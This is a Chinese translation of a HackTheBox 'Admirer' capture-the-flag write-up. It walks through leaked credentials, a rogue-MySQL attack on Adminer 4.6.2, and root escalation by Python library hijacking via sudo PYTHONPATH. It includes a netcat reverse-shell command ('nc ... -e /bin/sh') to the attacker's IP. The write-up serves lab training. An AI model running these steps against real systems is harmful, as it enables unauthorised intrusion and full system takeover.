# HTB 的崇拜者

> 原文：<https://infosecwriteups.com/htb-admirer-writeup-171abd8d399c?source=collection_archive---------1----------------------->

## 敏感文件泄露| Python 库劫持

# **总结:**

对于该机器，使用`gobuster`命令暴露了访问开放 FTP 端口的凭据，这导致发现了易受攻击的 MySQL 数据库，该数据库允许外部服务器导入暴露凭据的任意数据。也就是说，您可以实现一个本地数据库和表，授予完全权限，并将其连接到易受攻击的 MYSQL 数据库。

对于 root 用户，发现一个脚本使用`sudo`命令作为 root 用户执行。查看脚本代码后，Python 库劫持技术被尝试提升权限以获取 root 用户。

## 使用的工具:

*   `Nmap`
*   `gobuster`
*   `gunzip`和`tar -xvf`
*   `mysql -h localhost -u <username> -p`
*   `sudo -l`
*   `nc`
*   自定义 python 脚本漏洞利用

# 列举

**Nmap TCP 输出**

*** * * * * * * * * * * *端口 80 HTTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

在 robots.txt 文件中找到了 **/admin-dir** 目录。

看起来/admin-dir 有些有趣的东西。



我运行`gobuster`来查找 **/admin-dir** 目录中的内容，但是没有一个 wordlist 脚本能够找到另一个子目录。

***注意:*** *在 robots.txt 文件内，Waldo 提到/admin-dir 包含' contact '和' creds '。*



**‘contacts . txt’**和 **credentials.txt** 文件包含用户名和密码。

*** * * * * * * * * * * *端口 21 FTP * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * ***

我们知道 ftp 端口是打开的，所以我们可以使用它的凭证登录。



输入`get dump.sql`和`get html.tar.gz`命令下载这些文件。

使用命令提取**html.tar.gz**文件的内容:

> `gunzip html.tar.gz`
> 
> `tar -xvf html.tar`

**你得到:**

在查看所有的**子目录**时，我注意到在**实用程序脚本**文件夹中的 **db_admin.php** 中有一些东西，请阅读以下注释:

查看下面来自 [w3schools](https://www.w3schools.com/php/php_mysql_create.asp) 的**示例 db_admin.php** ，我们可以看到**‘database’**名称缺少**，因为它不是在 db_admin.php 下创建的。**



基本上**<DatabaseLoginPortalName>。php** 不见了。我们在 **/utility-scripts 中使用`gobuster` 运行一个搜索。**



找到的**数据库登录门户**名称为**adminer.php**

***注:*** *管理员版本 4.6.2*

由于未创建数据库，找到的所有凭据都不适用于此数据库登录门户。



# **立足点**

[**管理员版本 4.6.2**](https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability) 易受错误配置系统的攻击，攻击者会让管理员连接到其本地 mysql 服务器。该网站引用“Adminer 然后将连接到外部服务器，使用凭证登录，并立即从服务器接收特定文件的数据导入请求。”

**在攻击者机器上运行以下命令:**

*   `sudo service mysql start`
*   `sudo mysql`

登录后，创建用户并授予我们将创建的新数据库的所有权限。

*   `CREATE DATABASE admirerExposed;`
*   `SHOW DATABASES;`
*   `USE admirerExposed;`
*   `CREATE TABLE tableTEST(columnTest varchar(5000));`



mysql 的下一步:

`GRANT ALL PRIVILEGES ON admirerExposed.* TO ‘testName’@’%’ IDENTIFIED BY ‘testPassword’;`

使用命令`SELECT user FROM mysql.user;`检查用户列表



现在在**/etc/MySQL/Maria db . conf . d/50-server . CNF**文件中，将**绑定地址**更改为 **0.0.0.0** 以允许来自远程主机的连接。

最后，来自 mysql 的`exit`和`sudo service mysql restart`

现在，运行一个测试，看看通过' **localhost** 和' **remote server** 登录是否有效，因为我们使用了通配符`**%**` ，它允许从任何远程主机连接。

# **反壳**

下面，我使用 HTB 的 IP 地址 10.10.14.42 作为我修改后的 mysql 服务器。



## 权限提升

现在我们有了用户，通过一些基本的检查，我们可以看到*/opt/scripts/admin _ tasks . sh*已经被授权通过`sudo`命令作为根用户执行。

在没有`sudo`命令的情况下运行脚本，看看它是如何工作的，然后用`sudo`命令运行。



在 *admin_task.sh* 代码中，我们可以看到' *backup_web* '函数正在调用 */opt/scripts/backup.py* 脚本并执行它。

查看下面的脚本， [Python 库劫持](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)文章通过光栅化提到了如何伪造类似的 Python 库文件名以包含恶意模块来提升权限。



后援。当用户点击数字 6 时，备份 Web 数据调用的 PY 脚本。

创建一个简单的反向 shell 脚本:`nc 10.10.14.42 6765 -e "/bin/sh"`

恶意库文件“SHUTIL。“PY”被创建，并在备份的模块“MAKE_ARCHIVE()”中包含恶意负载。PY 导入并执行。

`sudo PYTHONPATH=/tmp/ko /opt/scripts/admin_tasks.sh`

当用户使用`sudo`命令执行*opt/scripts/admin _ tasks . sh*并输入‘6’(备份 Web 数据)时，执行/opt/scripts/backup.py 脚本，然后使用给定路径`PYTHONPATH=/tmp/ko`调用 python 库文件‘shutil . py’并导入定制的恶意模块‘make _ archive()’。这就是执行/bin/bash 的方式，我们得到如下所示的 shell。

